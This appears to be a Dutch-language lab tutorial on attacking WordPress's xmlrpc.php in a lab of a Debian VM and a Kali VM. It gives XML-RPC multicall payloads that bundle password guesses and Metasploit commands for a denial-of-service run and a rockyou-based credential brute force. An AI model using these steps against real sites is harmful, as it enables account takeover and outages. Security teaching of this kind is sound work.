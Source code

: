 ## Environment setup  

Debian 11 VM
running wordpress 5.0.0: https://wordpress.org/download/releases/#branch-50  

Kali VM 
running metasploit

## Xmlrpc.php exploit 

**General**  

CVE: https://www.cvedetails.com/cve/CVE-2020-28035/

Wordpress vóór versie 5.5.2 gebruikte XML-RPC, Een remote procedure call (RPC) Dat externe applicaties en diensten in staat stelde om met een Wordpress-site te communiceren. Het bood zo een manier aan voor deze applicaties om verschillende taken en functies uit te voeren. 

Maar XML-RPC had een aantal beveiligings- en prestatieproblemen.

**Burp Suite en XML POSTS**


Instructions:

        Open browser
        browse naar (wordpresserver)/xmlrpc.php
        Dit zou "XML-RPC server accepts POST requests only." 
        moeten teruggeven, zo weet je dat xmlrpc aanstaat op de 
        wordpress server

        Open burp suite
        selecteer de proxy tab
        Open browser via proxy tab en ga naar (wordpresserver)/xmlrpc.php
        klik op forward tot je de juiste request krijgt.
        send deze request naar de repeater (via actions)

        open de repeater tab
        verander de GET naar POST

        en injecteer de XML payload

        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>admin</value></param>
        <param><value>pass</value></param>
        </params>
        </methodCall>

        klik dan op Send.

Zoals je kunt zien, maakt XML-RPC het mogelijk om zelf verzoeken naar WordPress te sturen en te controleren of u kunt inloggen. Het meest cruciale aspect hierbij is het volgende:

Het belangrijkste verschil tussen een verzoek via XML-RPC en de WordPress-website zelf, is dat XML-RPC meerdere verzoeken in één enkele POST-aanvraag kan bundelen, zelfs honderden. Dit noemt een multicall. Desondanks wordt dit voor de webserver geregistreerd als slechts één POST-verzoek. Hierdoor kan het duizenden wachtwoorden en functies uitvoeren met een minimaal aantal POST-verzoeken.

Een voorbeeld: 

        Vervang de XML payload met:

         <methodCall>
        <methodName>system.multicall</methodName>
        <params>
            <param>
            <value>
                <array>
                <data>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password1</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password2</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                </data>
                </array>
            </value>
            </param>
        </params>
        </methodCall>

Zoals je kan zien antwoord de server op alle calls in de multicall.
Dit opent de server voor DOS aanvallen met een kleine hoeveelheid POST calls en 
nog belangrijker, brute force attacks die een stuk minder opvallend zijn dan alternatieven. 

We zullen beiden tonen aan de hand van het metasploit framework.

instructies:

        Open de Kali VM
        username: osboxes
        ww: osboxes.org
        Open het metasploit framwork (kan via de search bar)

**DOS attack**  

In de debian VM:

        top

In de Kali VM:

        search wordpress_xmlrpc
        use auxiliary/dos/http/wordpress_xmlrpc_dos 
        set RHOSTS 192.168.1.60
        set RPORT 80
        set RLIMIT 10000000
        show options
        run

Ga nu naar de Debian vm en toon de cpu usage

**Brute force credentials**  

In de Kali VM:
        cd /usr/share/wordlists
        sudo gzip -d rockyou.txt.gz

        sudo nano /usr/share/wordlists/names.txt

        msfconsole
        search wordpress_xmlrpc
        use auxiliary/scanner/http/wordpress_xmlrpc_login
        set RHOSTS 192.168.1.60
        set USER_FILE /usr/share/wordlists/names.txt
        set PASS_FILE /usr/share/wordlists/rockyou.txt
        set STOP_ON_SUCCESS true
        run